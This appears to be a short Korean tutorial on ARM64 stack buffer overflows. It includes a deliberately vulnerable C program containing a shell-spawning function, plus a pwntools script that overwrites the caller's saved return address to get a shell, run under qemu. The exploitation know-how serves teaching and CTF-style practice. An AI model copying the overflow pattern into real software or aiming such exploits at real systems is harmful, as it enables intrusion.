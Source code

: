 스택프레임

```
----------
saved X29
----------
saved X30
----------


buffer


----------
```

이런 구조이다. 즉 buffer에서 입력을 써내려가도 자신의 sfp와 ret을 overwrite할 수 없다.
대신 다른 함수가 호출되면 다음과 같아 진다.

```
----------
saved X29
----------
saved X30
----------

buffer

----------
saved X29
----------
saved X30
----------

buffer

----------
```

이렇게 된다. 즉 callee 함수에서 caller 함수의 sfp와 ret을 덮을 수 있다는 것이다. 이를 이용해서 buffer overflow를 일으켜서 rce 가 가능하다.

### 예제
```c
#include <stdio.h>

void setup_environment() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void getshell(){
    execve("/bin/sh",0, 0);
}

void func(){
    char buf[0x30];
    printf(">> ");
    read(0, buf, 0x50);
}

int main()
{
	setup_environment();
	printf("Hello World\n");
	func();
	return 0;
}
```
간단한 c코드 이다. main함수에서 func 함수가 실행되고 func함수에서 overflow가 발생하니 main함수의 ret을 덮을 수 있다.

```python
from pwn import *

#context.log_level = 'debug'

context.update(arch='arm', os='linux')

p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "./exam"])
#p = remote("localhost", 8888)


ex = b''
ex += b'a'*0x30
ex += b'b'*0x8
ex += p64(0x00000000004007ec)

p.sendlineafter(b">> ", ex)
p.interactive()
```
해당 실행 코드는 그냥 실행을 못하고 
`qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./exam`
이렇게 실행해야 한다. 그래서 다음과 같이 process안에 저렇게 해주었다.

셸이 잘 따였다.
![](https://i.imgur.com/Wp5qzxc.png)
